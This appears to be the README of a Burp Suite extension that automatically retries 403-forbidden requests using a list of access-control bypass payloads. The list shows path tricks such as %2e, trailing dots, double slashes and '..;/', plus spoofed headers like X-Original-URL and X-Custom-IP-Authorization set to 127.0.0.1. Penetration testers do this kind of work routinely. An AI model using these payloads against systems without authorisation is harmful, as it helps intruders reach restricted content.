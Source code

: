 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2 -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1/$2 -H "X-Rewrite-URL: /$2"
$1/$2%20/
$1/%20$2%20/

$1/$2..;/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Fininsh`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
